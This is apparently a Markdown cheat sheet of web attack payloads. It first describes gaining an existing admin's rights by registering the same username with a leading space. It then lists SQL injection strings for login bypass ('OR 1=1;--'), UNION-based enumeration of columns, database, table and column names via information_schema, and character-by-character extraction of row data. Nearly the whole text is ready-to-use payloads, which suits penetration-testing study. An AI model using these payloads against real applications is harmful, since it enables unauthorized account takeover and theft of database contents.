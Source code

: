 add a space character before registering a new account to gain the same read/write permissions as an account with the same name
```
'admin' --> is a registered account username
you create the username ' admin' to gain the same rights 
```
### In Band Authentication bypass
~~~
' OR 1=1;--
or
email@email.com' --  
~~~

`bob' AND 1=1--` would update Bob's record, while `bob' AND 1=2--` would not. This demonstrates the SQL injection vulnerability without putting the entire table's records at risk.
### Boolean Return
```SQL
' UNION SELECT 1;--
' UNION SELECT 1,2;--
' UNION SELECT 1,2,3;--
```
enumerates the correct number of columns in the query table

```
' UNION SELECT 1,2,3 where database() like '%';--
```
enumerates database name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.tables 
WHERE table_schema = '[[DATABASE NAME]]' and table_name like 'a%';--
```
enumerates table name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%';--
```
enumerates column name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id'	
```
Again you'll need to cycle through letters, numbers and characters until you find a match. 
>As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name,

```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]] like 'a%
```
cycles through valid column name entries
```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]]='[[VALID_ENTRY]]' and [[OTHER_COLUMN_NAME]] like 'a%
```
cycles through row entry data
